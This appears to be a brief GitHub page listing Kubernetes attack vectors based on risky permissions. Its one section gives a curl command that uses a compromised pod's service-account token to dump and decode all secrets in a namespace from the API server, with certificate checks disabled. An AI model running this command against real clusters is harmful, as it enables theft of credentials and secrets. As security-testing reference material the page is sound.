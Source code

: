 # Kubernetes

Collection of Kubernetes Attack vectors based on risky permissions

## Listing secrets

If a attacker is able to overtake a pod he has access to the service accounts JWT that the pod uses to talk to the api server. If the token is privilided to read secretes, the following curl call can be used to get the secretes.
````
curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://<controlpane-ip>:6443/api/v1/namespaces/cloud-idp/secrets | jq  -r ".items[].data"
````

